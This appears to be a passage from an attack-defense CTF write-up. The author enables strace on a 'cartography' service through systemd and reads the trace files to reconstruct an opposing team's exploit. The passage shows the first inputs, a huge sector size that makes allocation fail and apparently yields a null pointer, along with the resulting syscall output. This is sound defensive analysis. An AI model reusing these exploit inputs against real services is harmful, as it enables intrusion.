 ```
ExecStart=/usr/bin/strace -f -ff -o /tmp/foo /usr/bin/stdbuf -o0 /srv/cartography/cartography
```

and then restarting with:

```bash
systemctl daemon-reload
systemctl restart cartography.socket
```

enables `strace` on the service and produces one discrete easy to follow file per PID:

```bash
# ls -l /tmp/foo.* | head
-rw-r--r-- 1 cartography cartography    4045 Jul 10 21:39 /tmp/foo.10003
-rw-r--r-- 1 cartography cartography    2846 Jul 10 21:39 /tmp/foo.10004
-rw-r--r-- 1 cartography cartography    5141 Jul 10 21:43 /tmp/foo.10008
-rw-r--r-- 1 cartography cartography    4045 Jul 10 21:34 /tmp/foo.10014
-rw-r--r-- 1 cartography cartography    4912 Jul 10 21:34 /tmp/foo.10015
...
```

Randomly I selected: `foo.9544` (it was at the end of the directory listing at the time), opened up in `vim`, and _boom!_, I've got the hacker's trail:

![](strace.png)

> `vim` does not disappoint, I did not expect `strace` to have color coded syntax--nice.
> 
> Of the 70 teams hacking our services I have no idea which one this was, but whomever you are, thanks for the solve!).

That is pretty damning evidence (sadly I did not add the `-ttt` option for microsecond resolution timestamps), and now I can follow the hacker's attack, step-by-step:

#### Step 1: A test?

```
read(0, "0\n", 4096)                    = 2
write(1, "Enter the sector's size:", 24) = 24
write(1, "\n", 1)                       = 1
read(0, "10\n", 4096)                   = 3
```

This looks like just a sanity check, and is not required to exploit (tested), however this could be used as part of a signature to help identify the attacker.


#### Step 2: The null pointer

```
read(0, "0\n281474976710655\n", 4096)   = 18
write(1, "Enter the sector's size:", 24) = 24
write(1, "\n", 1)                       = 1
mmap(NULL, 281474976714752, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = -1 ENOMEM (Cannot allocate memory)
brk(0x1000001357000)                    = 0x1356000
mmap(NULL, 281474976845824, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = -1 ENOMEM (Cannot allocate memory)
write(1, "Sector created!", 15)         = 15
```
